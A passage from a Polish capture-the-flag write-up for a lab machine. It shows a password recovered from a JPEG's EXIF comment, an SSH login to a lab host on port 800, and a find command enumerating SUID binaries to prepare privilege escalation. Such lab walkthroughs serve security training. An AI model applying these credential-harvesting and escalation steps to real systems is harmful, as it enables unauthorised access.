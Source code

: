 ```bash
# root@kali:/home/szikers/t800/sexy# exiftool nudeslut.jpeg
ExifTool Version Number         : 12.30
File Name                       : nudeslut.jpeg
Directory                       : .
File Size                       : 12 KiB
File Modification Date/Time     : 2021:04:08 14:22:09+02:00
File Access Date/Time           : 2021:10:12 20:37:32+02:00
File Inode Change Date/Time     : 2021:10:12 20:36:41+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : passwd:chmodxheart
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050 
```

## 05. SSH i zbliżający się ból głowy
```bash
# root@kali:/home/szikers/t800# ssh -p 800 ruut@172.16.1.107
ruut@172.16.1.107's password:
Linux t800 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 13 08:16:39 2021 from 172.16.1.10
ruut@t800:~$
```
Jesteśmy na Konsoli, Sprawdźmy czy jakieś pliki mają ustawienie **SUID**a.
{: .text-justify}

```bash
# ruut@t800:~$ find / -perm -04000 2>/dev/null
/usr/bin/conky
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/calife
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Z niestandardowych plików widzimy _/usr/bin/conky_ i _/usr/bin/calife_
{: .text-justify}
